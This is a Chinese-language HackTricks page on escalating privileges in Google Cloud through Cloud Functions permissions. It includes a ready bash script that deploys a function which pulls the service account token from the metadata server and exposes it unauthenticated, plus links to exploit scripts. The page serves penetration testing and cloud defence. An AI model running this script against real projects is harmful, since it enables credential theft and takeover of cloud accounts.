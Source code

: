 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## cloudfunctions

有关 Cloud Functions 的更多信息：

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

拥有这些权限的攻击者可以**创建一个带有任意（恶意）代码的新 Cloud Function，并将其分配给一个服务账户**。然后，从元数据中泄露服务账户令牌以提升权限。\
可能需要一些权限来触发该函数。

此方法的利用脚本可以在 [这里](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) 和 [这里](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) 找到，预构建的 .zip 文件可以在 [这里](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions) 找到。

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

拥有这些权限的攻击者可以**修改函数的代码，甚至修改附加的服务账户**，以提取令牌。

{% hint style="danger" %}
为了部署云函数，您还需要对默认计算服务账户或用于构建映像的服务账户具有 actAs 权限。
{% endhint %}

可能需要一些额外的权限，例如版本 1 cloudfunctions 的 `.call` 权限或角色 `role/run.invoker` 来触发该函数。
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
如果您收到错误 `Permission 'run.services.setIamPolicy' denied on resource...`，这意味着您正在使用 `--allow-unauthenticated` 参数，并且您没有足够的权限。
{% endhint %}

此方法的利用脚本可以在 [这里](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py) 找到。

### `cloudfunctions.functions.sourceCodeSet`

通过此权限，您可以获取一个**签名的 URL，以便能够将文件上传到函数存储桶（但函数的代码不会被更改，您仍然需要更新它）** 

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

从攻击者的角度来看，仅有这个权限的实用性不太确定，但知道这一点是好的。

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

给自己任何之前的 **`.update`** 或 **`.create`** 权限以进行升级。

### `cloudfunctions.functions.update`

仅拥有 **`cloudfunctions`** 权限，而没有 **`iam.serviceAccounts.actAs`**，你 **将无法更新函数，因此这不是有效的权限提升。**

### 对存储桶的读写访问

如果你对存储桶有读写访问权限，你可以监控代码的变化，并且每当 **存储桶中发生更新时，你可以用自己的代码更新新代码**，这样新版本的 Cloud Function 将运行提交的后门代码。

你可以在以下链接中查看更多关于攻击的信息：

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

然而，你不能用这个来预先攻陷第三方 Cloud Functions，因为如果你在你的账户中创建存储桶并给予公共权限以便外部项目可以在其上写入，你会收到以下错误：

<figure><img src="../../../.gitbook/assets/image.png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
然而，这可以用于 DoS 攻击。
{% endhint %}

## 参考资料

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

